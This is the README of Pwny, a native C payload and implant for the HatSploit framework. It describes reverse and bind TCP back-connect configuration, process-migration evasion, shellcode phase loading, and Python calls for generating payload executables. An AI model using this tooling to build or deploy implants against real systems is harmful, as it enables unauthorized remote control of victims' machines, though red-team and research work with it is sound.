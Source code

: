 # Pwny

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pwny">
        <img src="https://img.shields.io/badge/language-C-grey.svg">
    </a>
    <a href="https://github.com/EntySec/Pwny/forks">
        <img src="https://img.shields.io/github/forks/EntySec/Pwny?color=green">
    </a>
    <a href="https://github.com/EntySec/Pwny/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Pwny?color=yellow">
    </a>
</p>

Pwny is an implementation of an advanced native-code payload written in pure C and designed for portability, embeddability, and extensibility.

That repository contains Pwny, which is supposed to work on `macOS`, `Linux`, `Windows` and `Apple iOS`, but can be ported to almost every Posix system. Note that `Android` app will come soon with generic support of this native Pwny codebase and will be optimized to work with HatSploit Framework (Checkmate C2) as well as with Ghost Framework.

## Features

* Portable C code, that can be compiled for a big range of CPUs.
* Support for `macOS`, `Linux`, `Windows` and `Apple iOS` targets.
* Small executable with low resource utilization which is good on embedded systems.
* Dynamically-extendable, might load plugins which are shared libraries.
* Evasion techniques such as process migration.

## Installing

You should install HatSploit to get Pwny, because Pwny depends on HatSploit Framework.

```
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building Pwny

These are platforms which are supported by Pwny.

### macOS

* Dependencies: patched SDKs from [here](https://github.com/phracker/MacOSX-SDKs).

```shell
cmake -DSDK=<sdk> -B build; cd build; make
```

### Apple iOS

* Dependencies: patched SDKs from [here](https://github.com/theos/sdks).

```shell
cmake -DSDK=<sdk> -DIPHONE=ON -B build; cd build; make
```

### Linux

```shell
cmake -B build; cd build; make
```

**NOTE:** Specify `arch` if you want to cross-compile, but install compilers first. Example:

```shell
cmake -DARCH=<arch> -B build; cd build; make
```

### Windows

```shell
cmake -G "MinGW Makefiles" -B build; cd build; make
```

## Basic usage

To use Pwny and build payloads you should import it to your source.

```python3
from pwny import Pwny
from pwny.session import PwnySession
```

* `Pwny` - Pwny utilities, mostly for generating payloads and encoding arguments.
* `PwnySession` - Wrapper for `HatSploitSession` for Pwny, HatSploit should use it with Pwny payload.

To get Pwny template, you should call `get_template()`.

```python3
from pwny import Pwny

pwny = Pwny()
template = pwny.get_template('linux', 'x64')
```

To serialize Pwny config, you should call `serialize_config()`.

```python3
from pwny import Pwny

pwny = Pwny()
args = pwny.serialize_config({})
```

Here is a short list of Pwny config options:

* `host` - Pwny back connect host
* `port` - Pwny back connect (or bind) port
* `type` - Pwny connection type (bind_tcp, reverse_tcp)

To get Pwny executable, you should call `get_pwny()`.

```python3
from pwny import Pwny

pwny = Pwny()
executable = pwny.get_pwny('linux', 'x64', config)
```

**NOTE:** If you want Pwny to connect you should specify both `host` and `port`, but if you want Pwny to listen, you should specify only `port`.

To get Pwny phase, you should call `get_phase()`.

```python3
from pwny import Pwny

pwny = Pwny()
phase = pwny.get_phase('linux', 'x64')
```

## Adding Pwny payload

To add Pwny payload to HatSploit you should follow these steps.

* Write a basic HatSploit payload template.
* Import `Pwny` and `PwnySession` and put `Pwny` to `HatSploitPayload` class.
* Set payload parameter `Session` to `PwnySession`.
* Add `get_pwny()` with platform, architecture and config specified to the `run()`.

```python3
return self.get_pwny(
    self.details['Platform'],
    self.details['Architecture'],
    {
        'host': remote_host,
        'port': remote_port,
        'type': connection_type,
    }
)
```

* Add method `phase()` that will return shellcode that loads Pwny phase into the memory (see [Pwny Phase Stack](https://github.com/EntySec/Pwny/tree/main/docs/phase_stack.md)).
* Add method `implant()` and return `get_implant()` with platform and architecture from it.

You can find an example of implementing Pwny in the HatSploit Framework here - [Linux x64 Pwny Reverse TCP](https://github.com/EntySec/Pwny/blob/main/payload/linux/x64/pwny_reverse_tcp.py).

## Caveats

The code provided in this repository has not yet been prepared for use in a production environment. It can be improved anyways, so any contribution is welcome. Unfortunately, most part of the codebase is unstable due to the lack of testing. You can even experience memory leaks, so we'll be glad to accept every single PR which is fixing a potential issue.
